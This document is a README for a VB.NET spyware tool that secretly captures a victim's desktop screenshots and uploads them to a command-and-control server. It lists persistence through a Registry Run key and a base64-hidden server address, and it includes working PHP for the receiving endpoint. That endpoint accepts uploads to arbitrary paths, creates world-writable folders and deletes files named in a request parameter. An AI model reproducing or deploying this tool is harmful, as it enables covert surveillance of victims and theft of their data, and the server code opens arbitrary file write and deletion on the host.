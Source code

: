 # ****Mr Peter :D****

## Silent Screenshot Capture | Post Exploitation Tool | VB.NET

A simple payload to take the screenshot of victims desktop and upload it to the C&C.

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot on after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new php file and put this code in it
```
    <?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
